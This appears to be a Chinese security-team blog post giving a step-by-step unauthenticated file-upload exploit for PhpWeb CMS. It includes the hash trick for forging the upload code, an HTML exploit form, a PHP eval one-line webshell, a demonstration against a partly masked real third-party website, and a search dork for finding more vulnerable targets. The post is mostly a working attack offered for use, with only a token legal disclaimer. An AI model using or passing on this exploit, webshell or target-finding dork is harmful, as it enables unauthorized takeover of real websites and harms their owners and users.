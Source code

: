 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/MgXo3ViEtMCxSu0oNJE9xw)

![](https://mmbiz.qpic.cn/mmbiz_gif/Svw665Wd5NDQQJQgg90v32vEPPIrV29uj5ibicL4xfMqpCCVUXiaZUrXzFszjNfGPiakELlyhnGhkvHcIcula2SZlQ/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/Svw665Wd5NCM84Ora7UvtwLnkDGUBqfFFicL7Y9QMhLXyibwb3U2xXSibF5ZEV6D9wfibvXLWtrjZOfK74m6gtknGA/640?wx_fmt=png)

原创声明！该文章著作权所有归 宁夏骐跃信息科技有限公司 F1A4 安全团队~ 转载请注明！

  

开局一张图

![](https://mmbiz.qpic.cn/mmbiz/Svw665Wd5NDQQJQgg90v32vEPPIrV29u2949VyfoAcWJIoia2baejJDtSF4OXQw7FSg1g9Zf5Agcx9tFysNDCPA/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/Svw665Wd5NDQQJQgg90v32vEPPIrV29udmhF8wCJG6dRYmiaCT61VhacewGwyaRElcN8ENy9JicBzasK0LBZL5RA/640?wx_fmt=jpeg)

**陌安**

宁夏骐跃信息科技有限公司  

  

  

****一直要写文章，结果各种事情就一直影响。****

**今天拿一个很老很水的漏洞写篇文章，力求把每一个细节都写出来，让读者不需要再去百度其他大佬的文章了。**

  

****言**归正传，直接开始吧。**

**1.1 简述**

**PhpWeb CMS 是蛮早的一款企业建站的 CMS 了，所以漏洞也非常鸡肋。这个前台 Getshell 直接无限制上传文件。**

**1.2 利用**

**我们利用到目标的：/base/post.php  
**

 **/base/appfile.php**

**首先访问 / base/post.php ，post 数据 act=appcode。获取加密前的 md5 值（初始值），然后拿着这个 md5 密文继续 md5 加密，在这里需要注意的是在原密文后面需要加上‘a’（无引号，只有一个 a）。然后通过 / base/appfile.php 进行上传，最后木马的地址就是 effect/source/bg / 文件名**

**1.3 演示**

**目标站点：http://www.jnrx***ser.com/**

![](https://mmbiz.qpic.cn/mmbiz/Svw665Wd5NDQQJQgg90v32vEPPIrV29uVS4icTFptOQicflJy6AD7sb3nq6CHhSph5btbd9ic6T7uy4cBlEK3GPAg/640?wx_fmt=jpeg)

**访问 / base/post.php，并且 post 数据 act=appcode**

![](https://mmbiz.qpic.cn/mmbiz/Svw665Wd5NDQQJQgg90v32vEPPIrV29uQ0dnjKJ7U3baerF2CqlrREgEFibL4tPzwKAY6vnpqqSWCtwuFiabqCgw/640?wx_fmt=jpeg)

**拿去继续加密，记住原来字符串后面要加上 a 进行加密。**

![](https://mmbiz.qpic.cn/mmbiz/Svw665Wd5NDQQJQgg90v32vEPPIrV29uklME1LaBDXwZKcjsjWMqx5FHKDKsUFHtCkSonaGbWqFZdhJnnzccwQ/640?wx_fmt=jpeg)

**编写 Exp，Getshell。**

![](https://mmbiz.qpic.cn/mmbiz/Svw665Wd5NDQQJQgg90v32vEPPIrV29ujjDSEXe9GzAu3K5nBv5gpcVp2UQQ2lgDk3cOfepIP9L4efAceFxB6A/640?wx_fmt=jpeg)

**放出 EXP，修改配置好 EXP 就可以 Getshell 了。**

> **<html>**
> 
> **<!--**
> 
>  **请勿用于违法行为，后果自负。** 
> 
> **Powered By F1A4 安全 @陌安（f1a4.org）** 
> 
> **QQ 3315453754**
> 
> **-->** 
> 
> **<body>**
> 
>  **<center>** 
> 
> **<h1>PhpWeb CMS Getshell EXP<h1>** 
> 
> **<h3>F1A4 Security Team@Moann</h3>**
> 
>  **<h3>Blog:<a href="https://www.jianshu.com/u/b4a349a97249">Mo_An</a></h3>**
> 
>  **<form action="http:/test/base/appfile.php" method="post" enctype="multipart/form-data"><!--   a 不需要修改，upload 也不需要修改，将加密后的密文输入，选择上传的文件然后最后一个 size 输入上传文件大小。<?php @eval($_POST[pass]);?>，这个为 28.-->**
> 
> **<label for="file">Filename:</label>**
> 
>  **<input type="file" />** 
> 
> **<input type="text" />**
> 
>  **<input type="text" />**
> 
>  **<input type="text" />**
> 
>  **<input type="text" /><br />**
> 
>  **<input type="submit" />** 
> 
> **</form>**
> 
>  **</body>** 
> 
> **</html>**

**返回 OK 即成功上传，木马地址为 http://www.jnrx***ser.com/effect/source/bg/f1a4.org**

**蚁剑连接之。**

![](https://mmbiz.qpic.cn/mmbiz/Svw665Wd5NDQQJQgg90v32vEPPIrV29ukMaBGF7Rf7u3FkA0SLR6XDgEHJoI7YsliaicV06ZQChqPib2icyicpRMiaBA/640?wx_fmt=jpeg)

  

  

Getshell

**再送一个关键字：inurl:/product/class/**

  

![](https://mmbiz.qpic.cn/mmbiz_png/Svw665Wd5NCM84Ora7UvtwLnkDGUBqfFlmwHVYT7pvJw3WnUhLdAoCpx5wqgbsvjcQA7G80nmGyEJzQbtXnFyQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Svw665Wd5NCM84Ora7UvtwLnkDGUBqfFdkFq0GibXuEJLe6AtWSa3b7dpBeBhHLlgcqNdrRG7wL3MdqJKg4uHWw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/Svw665Wd5NCM84Ora7UvtwLnkDGUBqfFXwQGsOTzYV8MWTD2e5HJNYgoLrghpWCe7Bxzb00SbB3vicptzIFZYsg/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/Svw665Wd5NCM84Ora7UvtwLnkDGUBqfFheeHX9NSibvMZhTBjSSqq3aw31X5GibJwxtseuUA0ySNXFZB3yAv6B7g/640?wx_fmt=png)